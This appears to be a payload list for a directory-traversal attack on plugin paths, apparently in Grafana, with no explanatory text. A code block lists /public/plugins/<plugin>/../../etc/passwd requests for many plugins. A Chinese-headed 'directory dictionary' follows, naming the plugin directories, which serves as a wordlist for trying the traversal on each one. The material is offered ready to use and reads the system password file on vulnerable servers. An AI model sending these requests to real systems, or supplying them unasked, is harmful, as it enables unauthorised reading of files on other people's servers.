 ```php
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```


目录字典

```
alertlistannolist
grafana-azure-monitor-datasource
barchart
bargauge
cloudwatch
dashlist
elasticsearch
gauge
geomap
gettingstarted
stackdriver
graph
graphite
heatmap
histogram
influxdb
jaeger
logs
loki
mssql
mysql
news
nodeGraph
opentsdb
piechart
pluginlist
postgres
prometheus
stat
state-timeline
status-history
table
table-old
tempo
testdata
text
timeseries
welcome
zipkin
```